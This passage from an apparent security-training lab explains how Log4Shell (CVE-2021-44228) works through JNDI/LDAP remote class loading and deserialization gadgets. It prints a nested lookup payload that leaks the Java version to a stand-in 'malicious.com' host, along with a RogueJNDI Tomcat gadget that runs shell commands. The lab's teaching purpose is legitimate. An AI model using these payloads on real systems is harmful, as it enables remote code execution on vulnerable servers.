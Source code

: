 This is exactly what is happening in the case of CVE-2021-44228. As the attacker has control over the lookup name and the LDAP server being queried, they can configure it to reply with a malicious LDAP response that contains a remote codebase URL to be downloaded and executed. This exploitation flow can be seen in the following diagram:

![Screenshot 2024-04-20 065656](https://github.com/acibojbp/RangeForce-Community/assets/164168280/d8f6f134-513f-41c7-9bec-77e09ac19acf)

![Screenshot 2024-04-20 070129](https://github.com/acibojbp/RangeForce-Community/assets/164168280/17080e1b-9c7c-45d5-90f3-792daa6629c7)

Java versions before 8u191 (about 3 years old at the time of publishing Log4Shell) have a direct path from a controlled JNDI lookup to remote class loading of arbitrary code. For more recent versions of the Java runtime, the deserialization attack still works and is detailed in the following step.

> Note: Log4j allows nested lookups! An attacker could find out which Java version is the target using by leaking it via DNS: `${jndi:ldap://${java:version}.malicious.com/a}`


### Insecure Deserialization

With more recent versions of Java (since 6u211, 7u201, 8u191, and 11.0.1), it is not possible to supply a Java class to be directly downloaded and executed because `com.sun.jndi.ldap.object.trustURLCodebase` has been set to `false` by default. In that case, the attacker has to rely on having a malicious serialized entry on the LDAP server. Upon deserialization on the vulnerable target, the included code will be executed.

The deserialization code that exists on the target server and is then leveraged to gain execution is called a **gadget**. There are a few deserialization gadgets implemented in the open-source tool [RogueJNDI](https://github.com/veracode-research/rogue-jndi) to target Tomcat, Groovy and WebSphere applications.

As an example, take a look at the following payload created by RogueJNDI to target Tomcat applications. It relies on having the tomcat-embed-core.jar and tomcat-embed-el.jar libraries loaded on the target application, which is the default for Tomcat applications after version 8. Note how the gadget uses the `javax.script.ScriptEngineManager` to execute commands on the target host:

```java
{"".getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval("new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','echo malicious']).start()")}
```

For more information on such gadgets, have a look at the [marshalsec](https://github.com/mbechler/marshalsec) toolset made by Moritz Bechler.

Here is how the serialized payload looks like when queried with `ldapsearch`:

![Screenshot 2024-04-20 070231](https://github.com/acibojbp/RangeForce-Community/assets/164168280/01abe123-cd92-44d0-a1b8-b950b52aee44)


> Note: Before Log4Shell, the target application had to explicitly and insecurely deserialize user provided objects such as the one above to be vulnerable, but Log4Shell allows attackers to exploit the target by writing a simple string to a log file.

As you may have seen, the technical explanation of the vulnerability can get quite complex on its own, but **it is not difficult to exploit the vulnerability** using off-the-shelf tools. In the next step, you will be going through the exploitation process yourself.
